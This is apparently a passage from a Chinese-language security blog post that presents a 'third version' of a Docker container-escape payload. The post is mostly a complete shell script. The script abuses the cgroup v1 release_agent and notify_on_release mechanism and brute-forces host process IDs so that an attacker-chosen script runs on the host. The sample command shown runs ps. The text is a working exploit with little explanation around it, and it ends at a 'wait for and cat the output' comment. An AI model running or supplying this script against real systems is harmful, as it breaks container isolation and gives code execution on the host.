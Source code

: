 
## 第三个版本
以上两个版本需要知道在容器的绝对路径

但是如果没有 或者找不到这个路径

我们可以用这个 payload

看到这个 payload 真的 我直呼好骚

```bash
#!/bin/sh
# 定义基本的变量 确定好自己几个目录在容器内的相对位置
OUTPUT_DIR="/"
MAX_PID=65535
CGROUP_NAME="xyx"
CGROUP_MOUNT="/tmp/cgrp"
PAYLOAD_NAME="${CGROUP_NAME}_payload.sh"
PAYLOAD_PATH="${OUTPUT_DIR}/${PAYLOAD_NAME}"
OUTPUT_NAME="${CGROUP_NAME}_payload.out"
OUTPUT_PATH="${OUTPUT_DIR}/${OUTPUT_NAME}"

# Run a process for which we can search for (not needed in reality, but nice to have)
sleep 10000 &

# Prepare the payload script to execute on the host
cat > ${PAYLOAD_PATH} << __EOF__
#!/bin/sh

OUTPATH=\$(dirname \$0)/${OUTPUT_NAME}

# Commands to run on the host<
ps -eaf > \${OUTPATH} 2>&1
__EOF__

# Make the payload script executable
chmod a+x ${PAYLOAD_PATH}

# Set up the cgroup mount using the memory resource cgroup controller
mkdir ${CGROUP_MOUNT}
mount -t cgroup -o memory cgroup ${CGROUP_MOUNT}
mkdir ${CGROUP_MOUNT}/${CGROUP_NAME}
echo 1 > ${CGROUP_MOUNT}/${CGROUP_NAME}/notify_on_release

# Brute force the host pid until the output path is created, or we run out of guesses
TPID=1
while [ ! -f ${OUTPUT_PATH} ]
do
  if [ $((${TPID} % 100)) -eq 0 ]
  then
    echo "Checking pid ${TPID}"
    if [ ${TPID} -gt ${MAX_PID} ]
    then
      echo "Exiting at ${MAX_PID} :-("
      exit 1
    fi
  fi
  # Set the release_agent path to the guessed pid
  echo "/proc/${TPID}/root${PAYLOAD_PATH}" > ${CGROUP_MOUNT}/release_agent
  # Trigger execution of the release_agent
  sh -c "echo \$\$ > ${CGROUP_MOUNT}/${CGROUP_NAME}/cgroup.procs"
  TPID=$((${TPID} + 1))
done

# Wait for and cat the output
```